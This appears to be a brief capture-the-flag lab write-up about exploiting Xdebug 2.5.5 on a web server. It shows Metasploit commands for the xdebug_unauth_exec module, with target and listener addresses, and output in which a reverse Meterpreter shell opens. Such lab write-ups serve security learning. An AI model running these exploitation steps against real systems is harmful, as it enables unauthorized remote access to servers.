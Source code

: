 # Website (80)

`Xdebug 2.5.5` is active on the website.

![alt text](Images/burpxdebug.png)

There is an exploit on this version of `Xdebug` : https://www.exploit-db.com/exploits/44568

```bash
msf6 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 10.10.10.83
RHOSTS => 10.10.10.83
msf6 exploit(unix/http/xdebug_unauth_exec) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(unix/http/xdebug_unauth_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] 10.10.10.83:80 - Waiting for client response.
[*] 10.10.10.83:80 - Receiving response
[*] 10.10.10.83:80 - Shell might take upto a minute to respond.Please be patient.
[*] 10.10.10.83:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 10.10.10.83
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.83:59756) at 2021-05-17 19:34:24 -0500
meterpreter >
```
